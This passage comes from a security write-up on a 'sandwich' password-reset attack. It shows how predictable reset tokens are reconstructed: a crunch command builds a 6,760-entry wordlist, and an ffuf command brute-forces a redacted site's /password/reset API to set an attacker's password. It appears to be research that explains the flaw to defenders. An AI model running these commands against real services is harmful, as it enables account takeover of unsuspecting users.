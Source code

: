 ```mermaid
        Server-->>attacker@email.com: /reset.html?token=FLTUSENC11I10310
        destroy attacker@email.com
        destroy victim@email.com
```

Token results:
```text
FLTUSEN a 11 u 7 0310 (attack)
FLTUSEN ? 11 ? ? 0310 (victim)
FLTUSEN C 11 I 1 0310 (attack)
```

Using the two tokens we obtained as a template, we can generate all possible missing combinations using crunch [^crunch] or a Python script:

```sh
$ crunch 16 16 -t FLTUSEN,11,%0310 -o tokens.txt
Crunch will now generate the following amount of data: 114920 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 6760 
FLTUSENA11A00310
FLTUSENA11A10310
FLTUSENA11A20310
FLTUSENA11A30310
FLTUSENA11A40310
FLTUSENA11A50310
FLTUSENA11A60310
FLTUSENA11A70310
FLTUSENA11A80310
FLTUSENA11A90310
...
```

After generating every possible combinations, we can brute-force the `/password/reset` API to identify the user's token and reset the password:

```sh
$ ffuf -u "https://www.redacted.com/host/service/password/reset" -X POST \
-H "Content-Type: application/json" \
-d "{\"rstPasswordRequest\":{\"requestData\":{\"clientAppId\":\"FLTUSEN\",\"country\":\"US\",\"language\":\"EN\",\"token\":\"FUZZ\",\"newPassword\":\"Pwn3dAccount!\"}}}" \
-w tokens.txt \
-fs 81
...
FLTUSENE11L10310        [Status: 200, Size: 41, Words: 7, Lines: 1, Duration: 547ms]
...
```

Depending on the number of attempts made, it could be that the server momentarily blocks the IP performing the bruteforce. If this occurs, it becomes difficult to make the attack reliable because some WAF or protection mechanism may block the attacker before he sends all 6760 combinations.


[^single-packet-attack]: [The single-packet attack](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local), portswigger.net
[^time-sensitive-attacks]: [Time-sensitive attacks](https://portswigger.net/web-security/race-conditions#time-sensitive-attacks), portswigger.net
[^turbo-intruder]: [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988), portswigger.net
[^crunch]: [`crunch` - generate wordlists from a character set](https://manpages.ubuntu.com/manpages/focal/man1/crunch.1.html), manpages.ubuntu.com
[^sandwich-attack]: [Sandwich Attacks: From Reset Password to Account Takeover](https://appsec-labs.com/sandwich-attacks/), appsec-labs.com